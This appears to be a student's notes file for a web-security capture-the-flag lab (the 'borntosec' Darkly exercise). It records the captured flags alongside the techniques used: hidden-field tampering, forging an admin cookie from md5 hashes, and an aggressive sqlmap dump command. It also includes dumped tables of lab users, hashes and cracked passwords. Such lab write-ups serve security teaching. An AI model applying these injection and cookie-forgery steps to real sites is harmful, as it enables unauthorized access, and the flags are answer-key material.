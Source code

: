 #+TITLE: Temp

* Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit, le flag nous est donne

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 est veut dire false

echo true | md5
74d9a83219cabaab06a69fd318873f335

Remplacons le cookie

* Search image :

vulnerable a l'injection sql
sqlmap --batch --dump -u <curl requete> --level=5 --risk=3 --technique=BEU
echo 1928e8083cf461a51303633093573c46 | sha2
~flag - 0dc499fbaa964a62c8b9ee5918e08a3387595e3d0c0cf0650e289e3a3e9a427a~

* Search users :
injection sql comme image

echo 5ff9d0165b4f92b14994e5c685cdce28 | sha2
~flag - be7803fb10d8ae560da023739a9847c370fca422f990bbb519cea9e85c45c32b~

* Source page :
?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

* Login :
~admin - shadow = b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~
root - shadow =
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2




Database: Member_Brute_Force
Table: db_default
[2 entries]
+----+-------------------------------------------+----------+
| id | password                                  | username |
+----+-------------------------------------------+----------+
| 1  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | root     |
| 2  | 3bf1114a986ba87ed28fc1b5884fc2f8 (shadow) | admin    |
+----+-------------------------------------------+----------+

Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                                                                                                          | countersign                                    |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                                                                                                             | 2b3366bcfd44f540e630d4dc2b9b06d9               |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                                                                                                            | 60e9032c586fb422e2c16dee6286cf10 (oktoberfest) |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | \\0418\\043E\\0441\\0438\\0444 \\0412\\0438\\0441\\0441\\0430\\0440\\0438\\043E\\043D\\043E\\0432\\0438\\0447 \\0414\\0436\\0443\\0433\\0430\\0448\\0432\\0438\\043B | e083b24a01c483437bcf4a9eea7c1b4d               |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good !                                                                                        | 5ff9d0165b4f92b14994e5c685cdce28               |
+---------+-----------+--------+-----------+-----------+----------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------+------------------------------------------------+


Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+


Database: Member_survey
Table: vote_dbs
[4 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| id_vote | int(11)      |
| nb_vote | int(11)      |
| subject | varchar(255) |
| vote    | float        |
+---------+--------------+
